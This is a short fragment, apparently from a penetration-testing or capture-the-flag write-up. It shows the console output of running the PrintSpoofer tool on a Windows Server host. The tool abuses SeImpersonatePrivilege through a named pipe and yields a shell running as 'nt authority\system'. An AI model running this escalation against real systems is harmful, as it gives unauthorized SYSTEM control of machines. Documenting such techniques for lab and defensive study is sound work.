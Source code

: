 C:\\Tools\>PrintSpoofer\.exe \-i \-c cmd\.exe
PrintSpoofer\.exe \-i \-c cmd\.exe
\[\+\] Found privilege: SeImpersonatePrivilege
\[\+\] Named pipe listening\.\.\.
\[\+\] CreateProcessAsUser\(\) OK
Microsoft Windows \[Version 10\.0\.17763\.2029\]
\(c\) 2018 Microsoft Corporation\. All rights reserved\.

C:\\Windows\\system32\>whoami
whoami
nt authority\\system
